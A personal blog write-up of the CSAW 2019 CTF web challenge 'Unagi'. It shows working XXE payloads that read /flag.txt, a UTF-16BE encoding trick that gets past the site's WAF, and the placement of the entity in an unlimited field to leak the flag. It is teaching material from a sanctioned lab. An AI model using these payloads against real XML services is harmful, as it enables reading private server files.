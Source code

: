 ```yaml
---
title: "CSAW2019: Unagi"
date: 2020-05-21T01:22:16-06:00
draft: false
comments: false
tags: ["writeups", "web"]
cover: "img/unagi.png"
---
```


Back in 2019 I really got into CTFs as a matter of honing my security skills. They were fun to do and enriched my knowledge of cybersecurity - so I got into it pretty quickly.

This was among the first of the challenges I did while under my team, Maple Bacon. At the time, I had plenty experience with SQL injections and XSS attacks, but not nearly enough experience with another common vulnerability: XXE attacks. CSAW 2019 sought to change that.

Let's Begin!
----

_Note: Unfortunately, I do not have screenshots as I partcipated in this CTF long before I realized I wanted to document my progress with them._

The challenge was called "Unagi". Several options were shown: ```home```, ```users```, ```about``` and upload. ```about``` simply said ```flag is at /flag.txt, come get it``` 

It was a website with users Alice and Bob displayed, with their emails, group, and intro. There was an `upload` endpoint that allowed you to upload XML documents to create a new user. And they also had a sample xml file, how nice! 

```
name: Alice
email: alice@fakesite.com
group: CSAW2019

name: Bob
email: bob@fakesite.com
group: CSAW2019
```

```xml
<?xml version='1.0'?>
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>
        <group>CSAW2019</group>
    </user>
</users>
```

This challenge has taught me one thing: where there is XML, there is XXE injection. Researching for hours about XML vulnerabilities all point to XXE injections being **the** attack to do, so I crafted a pretty classic XXE payload and put it in my file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

But the WAF will reject the file. I sort of just... aimlessly searched the internet for a fix, dismayed to find a bunch of php workarounds, as this was during a time where I definitely wasn't confident with my skills in php, and so I sort of stagnated at this point...

...Until I got curious about the encoding declaration. Standardly, encodings are UTF-8 around the board, but encoding UTF-16 exists - and what would happen if I changed the XML encoding from UTF-8 to UTF-16? This led me down to researching about using [different encodings to bypass WAF filters](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0/):

>An XML document can be encoded not only in UTF-8, but also in UTF-16 (two variants — BE and LE), in UTF-32 (four variants — BE, LE, 2143, 3412), and in EBCDIC...

>...Exotic encodings may also be used to bypass diligent WAFs as they are not always able to process all the encodings listed above. For instance, the libxml2 parser only supports one type of UTF-32 — UTF-32BE, specifically without BOM.

For this issue in particular, UTF-8 and UTF-16 differ in their ways of encoding a sequence of chars. UTF-8's character encodings are 1-4 bytes, while UTF-16's are 2-4. What this challenge's WAF does is look at the byte encoding of a character and match it with whatever blacklist it has. But naturally, UTF-8's character encodings are going to be vastly different from UTF-16's, since there is at least 1 byte of a difference. So when the WAF looks at UTF-16 encodings, it won't be able to detect the malicious characters that is differently encoded in 2 bytes, and assumes the file is clean.

```
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>&xxe;</group>
    </user>
</users>
```

UTF-16 encoding does bypass the WAF but when the flag.txt file is loaded...

```
name: Jam
email: jam@jelly.com
group: AAAAAAAAAAAAAAAAAAAA
```

It's cut off, probably cause the "group" field has a character limit. But interestingly enough, the xml sample file doesn't specify a field we saw before - ```intro```. Could we just put our xxe attack in there?

```
<?xml version="1.0" encoding="UTF-16BE"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:////flag.txt" >
]>    

<users>
    <user>
        <username>Jam</username>
        <password>wordpass</password>
        <name>Jam</name>
        <email>jam@jelly.com</email>
        <group>Fruit Preservatives</group>
        <intro>&xxe;</intro>
    </user>
</users>
```
It works!

```
name: Jam
email: jam@jelly.com
group: Fruit Preservatives
intro: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

----

Looking back at CSAW 2019 now, it's almost obvious that the attack vector here was an XXE. Of course, being young and somewhat new to the collective CTF scene I wouldn't have figured this out from the get-go. It feels nice to know that I have grown and evolved as a CTF hacker, and I will continue to do so. Each CTF I participate in teaches me something new, so hopefully if anyone reads this and feels uncertain about how much they don't know, spin it around and see it as an oppurtunity of how much you can learn :) Anyway, this was a quick writeup I did based on my year-old notes on this challenge, so I apologize for the lack of screenshots and otherwise simple presentation of it. This coming weekend, I will be participating in a few different CTFs, so expect more writeups to come soon!

Jam

---
References

Cover Image: [Isabella Mendes](https://www.pexels.com/@isabella-mendes-107313) on Pexels
